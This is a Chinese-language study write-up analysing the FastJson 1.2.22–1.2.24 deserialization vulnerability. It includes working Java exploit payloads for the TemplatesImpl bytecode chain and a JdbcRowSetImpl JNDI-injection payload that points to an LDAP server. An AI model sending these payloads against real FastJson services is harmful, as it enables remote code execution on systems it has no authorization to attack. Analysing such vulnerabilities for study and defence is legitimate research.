






# 2.2FastJson1.2.22-1.2.24 反序列化分析

## 1.漏洞原理

FastJson 反序列化是因为未对`@type`字段进行有效的校验导致可以传入恶意的类且反序列化的时候会自动调用`setter`和无参构造器，在某些情况下会调用`getter`，当这些方法存在利用点的时候，我们通过传入可控利用点成员变量进行攻击利用。

Fastjson通过parse、parseObject处理以json结构传入的类的字符串形时，会默认调用该类的共有setter与构造函数，并在合适的触发条件下调用该类的getter方法。当传入的类中setter、getter方法中存在利用点时，攻击者就可以通过传入可控的类的成员变量进行攻击利用

## 2.利用分析

### 2.1 TemplateImpl

#### (1).利用链分析

在CC3中，有涉及到关于`TemplatesImpl`链的利用，其中涉及到3个变量为：`_name、_bytecodes、_tfactory`。在刚开始的漏洞原理中提到，fastjson在解析json字符串的时候，会去调用getter方法，

所以说，只解析的json字符串中存在`_outputProperties`的键值对，那么在解析的过程中会调用到`TemplatesImpl#getOutputProperties()`，代码如下：



然后再接着调用`newTransformer()`后就是字节码的加载，这部分内容可以参考CC3,了解这一点之后，可能会想立马构造exp，但是能成功吗？如果进行的构造如下：

```java
  byte[] bytes = Files.readAllBytes(Paths.get("Exp.class"));
  String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
          "\"_bytecodes\":"+ Arrays.toString(bytes) +"," +
          "'_name':'me7eorite'," +
          "'_tfactory':{ }," +
          "\"_outputProperties\":{ }" +
          "}";
  Object obj = JSON.parseObject(text,Feature.SupportNonPublicField);
```

编译器是会产生格式错误的报错，显然这种方式是不行的，fastjson应该有自己的处理逻辑，所以往下需要分析一下它的解析过程。


在FastJson解析过程中，关键代码位于`DefaultJSONParser#parseObject()`中，其中关键位置如下：



在该位置，通过传入的`@type`获取到需要转化的类，对于后续版本中，该类还会涉及到黑名单的绕过。

往下就涉及到field的处理，主要的处理方式是在于`ObjectArrayCodec#deserialze(...)`中


传入后会先判断token的类型，然后采取指定的操作方式，例如：传入的是`_bytecodes`后会进行base64解码：



根据以上的分析，这个构造方式就很清晰的：

1. 利用`TemplatesImpl`触发，需要`_name、_tfactory、_bytecodes`变量
2. 为了触发getter，需要定义`_outputProperties`
3. `_bytecodes`赋值的时候存在base64解码，需要编码。

修改以上的exp，增加一个base64编码即可：

```java
  byte[] bytes = Files.readAllBytes(Paths.get("/Users/me7eorite/Documents/GitHub/Learning-Demo/JavaStudy/target/classes/Exp.class"));
  String s = Base64.getEncoder().encodeToString(bytes);

  String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
          "\"_bytecodes\":[\""+s+"\"]," +
          "'_name':'me7eorite'," +
          "'_tfactory':{ }," +
          "\"_outputProperties\":{ }" +
          "}";
  Object obj = JSON.parseObject(text,Feature.SupportNonPublicField);
```

当构造上述exp的时，或许会产生疑问：构造fastjson反序列化自动调用setter？但是，类中并没有`SetName()`。为什么还能够正常赋值？

因为,增加配置`Feature.SupportNonPublicField`到私有属性会通过反射赋值，其代码位于`FieldDeserializer#setValue(...)`。部分代码如下：



## 2.2 JdbcRowSetImpl

### (1).利用链分析

```java
String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://0.0.0.0:1389/owst18\",\"autoCommit\":true}";
JSONObject.parse(payload);
```

根据之前的分析，FastJson反序列化的时候会调用setter，在该exp中，通过`setAutoCommit(...)`调用到`this.connect()`



在`this.connect()`中，存在var1.lookup(...)，判断如果参数可控，这个位置是可以触发JNDI注入的。



配置一个dataSourceName，需要注意的是在exp中这键值对的顺序是不能够随意变化的，FastJson反序列化的时候会按照顺序调用setter。

